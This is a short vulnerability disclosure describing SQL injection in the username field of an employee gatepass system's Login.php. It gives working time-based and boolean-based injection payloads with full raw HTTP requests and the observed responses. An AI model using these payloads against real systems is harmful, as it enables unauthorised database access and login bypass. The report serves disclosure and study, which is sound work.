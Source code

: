 BUG_Author: ZongXinLi

Vulnerability File: /employee_gatepass/classes/Login.php

GET parameter 'username' exists SQL injection vulnerability

Payload1:`username=admin' and (select 2 from (select(sleep(10)))x) and 'x'='x&password=admin123`

```
POST /employee_gatepass/classes/login.php?f=login HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin' and (select 2 from (select(sleep(10)))x) and 'x'='x&password=admin123
```

The server's response time is 10 seconds

![image-20230418110724744](.\SQLi-1.png)

Payload2:`username=admin'and left(version(),6)='5.7.27' AND 'ledo'='ledo&password=admin123`

```
POST /employee_gatepass/classes/login.php?f=login HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin'and left(version(),6)='5.7.26' AND 'ledo'='ledo&password=admin123
```

Error injection success

When I enter the version number 5.7.26, it returns "success". Error statement when typing 5.7.27

![image-20230418112554085](.\SQLi-2.png)

![image-20230418112616037](.\SQLi-3.png)
